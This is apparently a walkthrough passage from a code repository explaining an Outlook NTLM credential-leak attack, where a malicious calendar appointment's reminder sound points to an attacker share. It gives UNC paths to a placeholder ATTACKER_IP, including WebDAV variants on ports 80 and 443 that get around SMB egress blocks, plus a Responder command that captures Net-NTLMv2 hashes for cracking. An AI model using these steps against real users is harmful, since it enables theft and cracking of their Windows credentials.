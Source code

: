 What is UNC?
--------------
UNC is used in Windows operating systems to find network resources (files, printers, shared documents).
These paths consist of a double backslash, the IP address or name of the computer hosting the resource, the share name and the file name.

Example for this path is: "\\ATTACKER_IP\foo\bar.wav"

---------------------------------------------------------------------------------
When the victim receives the malicious email, the UNC path directs them to that SMB share, triggering the vulnerability.

This causes the system to start an NTLM authentication process against the attacker's machine, leaking a Net-NTLMv2 hash that the attacker can later try to crack.

(Image of that process in PNG_Files name:UNC_Paths)

Now If for some reason the SMB protocol isn't a viable alternative to use, non-server versions of Windows will accept using UNC paths pointing to ports 80 or 443, and use HTTP to retrieve the file from a WebDAV-enabled web server.

The syntax of such UNC path is as follows:
------------------------------------------

* \\ATTACKER_IP@80\foo\bar.wav *

* \\ATTACKER_IP@443\foo\bar.wav *

This may be useful to bypass firewall restrictions preventing outgoing connections to port 445 (SMB).

---------------------------------------------------------------------------------
Crafting a Malicious Appointment:
==================================

Setting up Responder:
=====================

Since we expect the victim to trigger an authentication attempt against the attacker on port 445, we will set up Responder to handle the authentication process and capture the NetNTLM hash for us.

If you are unfamiliar with Responder, it will simply emulate an SMB server and capture any authentication attempt against it.

To launch Responder to listen for authentication attempts in your ens(enhanced networking capabilities)5 interface, you can simply run the following command in your machine:
--------------------------------------------------------------------------------
* responder -I ens5 * (You run this command as root in you terminal and also you can replace the enc with eth0 if your using different interfaces.)

---------------------------------------------------------------------------------
Attempting to Handcraft a Malicious Appointment:
=================================================

As a first attempt, we could manually create an appointment and edit the path to the reminder's sound file to point to a shared folder.
